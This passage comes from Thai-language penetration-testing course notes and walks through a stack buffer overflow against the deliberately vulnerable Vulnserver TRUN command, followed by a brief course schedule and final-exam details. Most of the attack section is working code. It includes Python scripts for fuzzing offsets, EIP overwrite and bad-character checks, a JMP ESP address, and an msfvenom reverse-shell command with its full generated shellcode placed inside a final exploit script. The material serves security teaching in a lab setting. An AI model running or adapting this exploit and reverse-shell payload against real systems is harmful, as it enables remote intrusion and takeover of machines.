8Dp9Dq0Dq1Dq2Dq3Dq4Dq5Dq6Dq7Dq8Dq9Dr0Dr1Dr2Dr3Dr4Dr5Dr6Dr7Dr8Dr9Ds0Ds1Ds2Ds3Ds4Ds5Ds6Ds7Ds8Ds9Dt0Dt1Dt2Dt3Dt4Dt5Dt6Dt7Dt8Dt9Du0Du1Du2Du3Du4Du5Du6Du7Du8Du9Dv0Dv1Dv2Dv3Dv4Dv5Dv6Dv7Dv8Dv9"
# Enter IP Address of your HOST Here!!!!
HOST = '............'
PORT = 9999

while True:
  try:
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((HOST,PORT))
    s.send(('TRUN /. :/' + offset))
    s.close()
  except:
    print "Error Connection to Server"
    sys.exit()

```

หลังจากที่รัน Python Script แล้ว ให้สังเกต Pointer EIP จะมีค่าเท่ากับ **"6F43376F" ** ซึ่งเราจะต้องนำค่าดังกล่าวไปดูว่าตำแหน่งที่ทำให้โปรแกรมหยุดทำงานอยู่ที่ตำแหน่งใด โดยใช้ Metasploit Pattern offset ตรวจสอบ

 

FIND Offfset by copy EIP HEX number to find Offset index 
```bash 
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q <EIP-HEX-NUMBER>
```

 

จากภาพด้านบนจะทำให้เราทราบค่าของ Offset จะมีขนาดเท่ากับ "2,002 Bytes" ซึ่งจะเป็นจุดที่เราสามารถ Overwrite ค่าของ EIP ได้และนำไปควบคุมเพื่อสร้าง Payload ต่อไปได้ 

<<<<<<<<<< RESULT >>>>>>>>>>

FOUND **Offset 2,002 Bytes**  
  
<<<<<<<<<< RESULT >>>>>>>>>>

---
## Overwriting the EIP 
- เมื่อเราได้ค่าของ Offset ขนาด 2002 มาแล้ว การที่เราจะสามารถเขียนทับ EIP ได้จะต้องค้นหาค่าของ EIP เสียก่อน โดยการทดสอบจะเป็นการส่งค่าของ A ไปจำนวน 2,002 Bytes และจากนั้นใส่ค่าของตัวอักษร B ไปอีก 4 Bytes เพื่อทำให้เห็นว่าเราสามารถควบคุม EIP ได้
  
```python
#!/usr/bin/python
import sys, socket
from time import sleep

shellcode = "A" * 2002 + "B" * 4

HOST = '192.168.56.101'
PORT = 9999

while True:
  try:
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((HOST,PORT))
    s.send(('TRUN /. :/' + shellcode))
    s.close()
  except:
    print "Error Connection to Server"
    sys.exit()
```

- จาก Python Script จะมีการเปลี่ยนตัวแปรจาก Offset เป็น Shellcode ที่มีขนาดเท่ากับขนาด Offset ที่ได้จากการทำ Fuzzing 
```python
shellcode = "A"*2002 + "B"*4
```
- A จำนวน 2,002 bytes เป็นจุดที่ Pointer EIP Start 
- B เป็นตัวอักษรที่มี Hex Code เป็น 42 ซึ่งจะเป็นค่าที่แสดงอยู่ภายใต้ EIP ต่อไป จำนวน 4 Bytes 

 

<<<<<<<<<< RESULT >>>>>>>>>>

**Controled EIP** pointer  
  
<<<<<<<<<< RESULT >>>>>>>>>>

---

## Finding Bad characters 
เมื่อเราต้องการสร้าง Shellcode เราจะต้องหาค่าของ Bad characters เพื่อตรวจสอบว่าอักขระอะไรบ้างที่สามารถใส่ใน Shellcode หรืออักขระอะไรที่มีผลทำให้ Shellcode เราไม่สามารถทำงานได้ (Bad characters) 

- Tool for generate Bad Characters
  - [badchars](https://github.com/cytopia/badchars)

```bash
pip install badchars
badchars -f python

# Result 
badchars = (
  "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)
```

จากนั้นเราจะนำค่าของ Bad Characters ที่ได้มานำไปใส่ใน Scripts 

```python
#!/usr/bin/python
import sys, socket
from time import sleep

badchars = (
  "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)
shellcode = "A" * 2002 + "B" * 4 + badchars

HOST = '192.168.56.101'
PORT = 9999

while True:
  try:
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((HOST,PORT))
    s.send(('TRUN /. :/' + shellcode))
    s.close()
  except:
    print "Error Connection to Server"
    sys.exit()

```


- ในการค้นหา Bad Characters เราจะต้องตรวจสอบไปทีละตัวอักษรตามลำดับ เช่น
01 > 02 > 03 > B0 > B0 > 06 > 07 > 08> .. > FF เรียงไปเรื่อยๆ หากพบว่าตัวเลข 04 และ 05 ได้หายไป แสดงว่าตัวเลข 04 และ 05 ดังกล่าวเป็น Bad Characters เป็นต้น

- จากการตรวจสอบภาพด้านบนจะเห็นว่า Vulnserver จะมีการเรียงกันของ HEX ตั้งแต่ 01 - FF เป็นปกติ นั่นหมายความว่า **ไม่มี Bad Chars** นั่นเอง


<<<<<<<<<< RESULT >>>>>>>>>>

**Vulnserver's Nothing Bad Chars** 
  
<<<<<<<<<< RESULT >>>>>>>>>>

## Finding the Right Mudule
- [Mona modules](https://github.com/corelan/mona)
  - ให้ตรวจสอบ Path "C:\Program Files (x86)\Immunity Inc\Immunity Debugger\PyCommands" บน Windows ที่ติดตั้ง Immunity Debugger ไว้ว่ามีไฟล์ชื่อ Mona.py หรือไม่ 



- พิมพ์ !mona modules บริเวรช่องใส่ช้อความด้านล่างบน Immunity


- การตรวจสอบ Modules นั้น จำเป็นต้องเข้าใจก่อนว่า Hex Code ของการไปยัง Pointer ESP คืออะไร? ทั้งนี้ บน Kali linux จะมี nasm_shell ที่ทำหน้าที่แปลงค่าของคำสั่ง Assembly ให้อยู่ในรูปแบบของ hex โดยจะทำการค้นหาตำแหน่งของ ESP ซึ่งเป็นจุดเริ่มต้นของ Code ที่จะทำการแทรก สามารถใช้คำสั่ง JMP ESP และทำให้เราทราบว่าคำสั่งดังกล่าวมี Hex code เป็น **“FFE4”** นั่นเอง 
  
```bash
locate nasm_shell
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

#nasm promp 
nasm > JMP ESP

# Result 
00000000  FFE4              jmp esp
```

จากนั้นกลับไปที่ Immunity Debugger เพื่อค้นหาตำแหน่งของ FFE4 หรือ JMP ESP โดยใช้คำสั่งดังนี้

```bash
!mona find -s “\xff\xe4" -m essfunc.dll
```


- จากรูปด้านบนจะเห็นค่า "625011af" ซึ่งเป็นตำแหน่งที่มีการ Jump ไปยัง ESP หรือเป็นจุดเริ่มต้นของฟังก์ชันที่มีช่องโหว่นั่นเอง
- เราสามารถตรวจสอบความถูกต้องได้โดยการใช้โปรแกรม Immunity ค้นหาจุด "625011af" ตามภาพด้านล่าง 
- จากนั้นเราสามารถกำหนด Breaking Point บน Immunity Debugger ได้โดยการกด F2 ตามภาพด้านล่าง


- Result JMP ESP to essfunc.dll is 625011af บน x86 จะมีรูปแบบการเข้าถึงด้วย Endian Format ทำให้จะต้องแปลงข้อมูลจาก 625011af ให้อยู่ในรูปแบบ Endian Format ดังต่อไปนี้ \xaf\x11\x50\x62 # และการเก็บ Address ใน x86 จะเก็บข้อมูลใน Memory ในลักษณะของ low order bytes at the lowest address และ high order bytes at the highest address ทำให้เราจำเป็นต้องใส่ค่าแบบ Reverse นั้นเอง

```python
#!/usr/bin/python
import sys, socket
from time import sleep

shellcode = "A" * 2002 + "\xaf\x11\x50\x62"

HOST = '192.168.56.101'
PORT = 9999

while True:
  try:
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((HOST,PORT))
    s.send(('TRUN /. :/' + shellcode))
    s.close()
  except:
    print "Error Connection to Server"
    sys.exit()

```
After run 


<<<<<<<<<< RESULT >>>>>>>>>>

**FIND Modules and ESP Point is 625011af and now we can controled EIP** 
  
<<<<<<<<<< RESULT >>>>>>>>>>

---
## Generating Shellcode and Gaining Root

```bash
 msfvenom -p windows/shell_reverse_tcp LHOST=192.168.56.110 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"

 # Result 
 [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of c file: 1506 bytes
unsigned char buf[] =
"\xd9\xe9\xd9\x74\x24\xf4\xba\xd5\x59\xfc\xfc\x5e\x2b\xc9"
"\xb1\x52\x31\x56\x17\x83\xee\xfc\x03\x83\x4a\x1e\x09\xd7"
"\x85\x5c\xf2\x27\x56\x01\x7a\xc2\x67\x01\x18\x87\xd8\xb1"
"\x6a\xc5\xd4\x3a\x3e\xfd\x6f\x4e\x97\xf2\xd8\xe5\xc1\x3d"
"\xd8\x56\x31\x5c\x5a\xa5\x66\xbe\x63\x66\x7b\xbf\xa4\x9b"
"\x76\xed\x7d\xd7\x25\x01\x09\xad\xf5\xaa\x41\x23\x7e\x4f"
"\x11\x42\xaf\xde\x29\x1d\x6f\xe1\xfe\x15\x26\xf9\xe3\x10"
"\xf0\x72\xd7\xef\x03\x52\x29\x0f\xaf\x9b\x85\xe2\xb1\xdc"
"\x22\x1d\xc4\x14\x51\xa0\xdf\xe3\x2b\x7e\x55\xf7\x8c\xf5"
"\xcd\xd3\x2d\xd9\x88\x90\x22\x96\xdf\xfe\x26\x29\x33\x75"
"\x52\xa2\xb2\x59\xd2\xf0\x90\x7d\xbe\xa3\xb9\x24\x1a\x05"
"\xc5\x36\xc5\xfa\x63\x3d\xe8\xef\x19\x1c\x65\xc3\x13\x9e"
"\x75\x4b\x23\xed\x47\xd4\x9f\x79\xe4\x9d\x39\x7e\x0b\xb4"
"\xfe\x10\xf2\x37\xff\x39\x31\x63\xaf\x51\x90\x0c\x24\xa1"
"\x1d\xd9\xeb\xf1\xb1\xb2\x4b\xa1\x71\x63\x24\xab\x7d\x5c"
"\x54\xd4\x57\xf5\xff\x2f\x30\x3a\x57\x17\xae\xd2\xaa\x67"
"\x3f\x7f\x22\x81\x55\x6f\x62\x1a\xc2\x16\x2f\xd0\x73\xd6"
"\xe5\x9d\xb4\x5c\x0a\x62\x7a\x95\x67\x70\xeb\x55\x32\x2a"
"\xba\x6a\xe8\x42\x20\xf8\x77\x92\x2f\xe1\x2f\xc5\x78\xd7"
"\x39\x83\x94\x4e\x90\xb1\x64\x16\xdb\x71\xb3\xeb\xe2\x78"
"\x36\x57\xc1\x6a\x8e\x58\x4d\xde\x5e\x0f\x1b\x88\x18\xf9"
"\xed\x62\xf3\x56\xa4\xe2\x82\x94\x77\x74\x8b\xf0\x01\x98"
"\x3a\xad\x57\xa7\xf3\x39\x50\xd0\xe9\xd9\x9f\x0b\xaa\xfa"
"\x7d\x99\xc7\x92\xdb\x48\x6a\xff\xdb\xa7\xa9\x06\x58\x4d"
"\x52\xfd\x40\x24\x57\xb9\xc6\xd5\x25\xd2\xa2\xd9\x9a\xd3"
"\xe6";
```

เมื่อเราได้ Payload มาเป็นที่เรียบร้อยให้นำไปใส่ใน Python Code ทั้งนี้ ให้สังเกตขนาดของ Payload เนื่องจากว่าการทำ Buffer Overflow จำเป็นจะต้องทราบขนาดของช่องโหว่ที่เกิดขึ้น ซึ่งตัว Payload จะต้องมีขนาดไม่เกิดจากที่กล่าวมาข้างต้น ซึ่งจากข้อมูลด้านบนทำให้ทราบว่า Payload นี้มีขนาดเท่ากับ 351 Bytes นั่นเอง

```python
#!/usr/bin/python
import sys, socket
from time import sleep

overflow = ("\xd9\xe9\xd9\x74\x24\xf4\xba\xd5\x59\xfc\xfc\x5e\x2b\xc9"
"\xb1\x52\x31\x56\x17\x83\xee\xfc\x03\x83\x4a\x1e\x09\xd7"
"\x85\x5c\xf2\x27\x56\x01\x7a\xc2\x67\x01\x18\x87\xd8\xb1"
"\x6a\xc5\xd4\x3a\x3e\xfd\x6f\x4e\x97\xf2\xd8\xe5\xc1\x3d"
"\xd8\x56\x31\x5c\x5a\xa5\x66\xbe\x63\x66\x7b\xbf\xa4\x9b"
"\x76\xed\x7d\xd7\x25\x01\x09\xad\xf5\xaa\x41\x23\x7e\x4f"
"\x11\x42\xaf\xde\x29\x1d\x6f\xe1\xfe\x15\x26\xf9\xe3\x10"
"\xf0\x72\xd7\xef\x03\x52\x29\x0f\xaf\x9b\x85\xe2\xb1\xdc"
"\x22\x1d\xc4\x14\x51\xa0\xdf\xe3\x2b\x7e\x55\xf7\x8c\xf5"
"\xcd\xd3\x2d\xd9\x88\x90\x22\x96\xdf\xfe\x26\x29\x33\x75"
"\x52\xa2\xb2\x59\xd2\xf0\x90\x7d\xbe\xa3\xb9\x24\x1a\x05"
"\xc5\x36\xc5\xfa\x63\x3d\xe8\xef\x19\x1c\x65\xc3\x13\x9e"
"\x75\x4b\x23\xed\x47\xd4\x9f\x79\xe4\x9d\x39\x7e\x0b\xb4"
"\xfe\x10\xf2\x37\xff\x39\x31\x63\xaf\x51\x90\x0c\x24\xa1"
"\x1d\xd9\xeb\xf1\xb1\xb2\x4b\xa1\x71\x63\x24\xab\x7d\x5c"
"\x54\xd4\x57\xf5\xff\x2f\x30\x3a\x57\x17\xae\xd2\xaa\x67"
"\x3f\x7f\x22\x81\x55\x6f\x62\x1a\xc2\x16\x2f\xd0\x73\xd6"
"\xe5\x9d\xb4\x5c\x0a\x62\x7a\x95\x67\x70\xeb\x55\x32\x2a"
"\xba\x6a\xe8\x42\x20\xf8\x77\x92\x2f\xe1\x2f\xc5\x78\xd7"
"\x39\x83\x94\x4e\x90\xb1\x64\x16\xdb\x71\xb3\xeb\xe2\x78"
"\x36\x57\xc1\x6a\x8e\x58\x4d\xde\x5e\x0f\x1b\x88\x18\xf9"
"\xed\x62\xf3\x56\xa4\xe2\x82\x94\x77\x74\x8b\xf0\x01\x98"
"\x3a\xad\x57\xa7\xf3\x39\x50\xd0\xe9\xd9\x9f\x0b\xaa\xfa"
"\x7d\x99\xc7\x92\xdb\x48\x6a\xff\xdb\xa7\xa9\x06\x58\x4d"
"\x52\xfd\x40\x24\x57\xb9\xc6\xd5\x25\xd2\xa2\xd9\x9a\xd3"
"\xe6")
shellcode = "A" * 2002 + "\xaf\x11\x50\x62" + "\x90" * 32 + overflow

HOST = '192.168.56.101'
PORT = 9999

while True:
  try:
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((HOST,PORT))
    s.send(('TRUN /. :/' + shellcode))
    s.close()
  except:
    print "Error Connection to Server"
    sys.exit()
```

- จากตัวอย่าง Code ด้านบนจะเห็นว่ามีการใส่ Space เข้าไปก่อนจะถึง Paload โดยการใส่ "\x90" ไปจำนวน 32 Bytes ก่อนจะถึง payload เนื่องจากหากเราไม่ใส่ค่าดังกล่าวอาจส่งผลทำให้ Payload ไม่สามารถทำงานได้ โดยปกติค่าดังกล่าวมักใส่จำนวน 8, 16 หรือ 32 Bytes เป็นต้น


## Week 14@25 Feb 2023

WIFI crack

Web Hacking

กฎหมายที่เกี่ยวข้อง


--- 

## Week 15@4 March 2023
- รายละเอียด LAB Final exam
  - สุ่ม Vulhub Image จากรายงานนักศึกษา จำนวน 2 Images เพื่อนำมาทำการทดสอบระบบ
  - รายงานผลการเจาะระบบอย่างละเอียด
  - A4 1 แผ่น จดอะไรเข้าไปก็ได้ 
--- 

## Week 16@11-26 March 2023
อาจารย์ต้องส่งข้อสอบ Final ก่อนวันที่ 22 Feb 2023

Final Exam Good luck everybody.

--- 


[def]: ./img/findbc2.jpg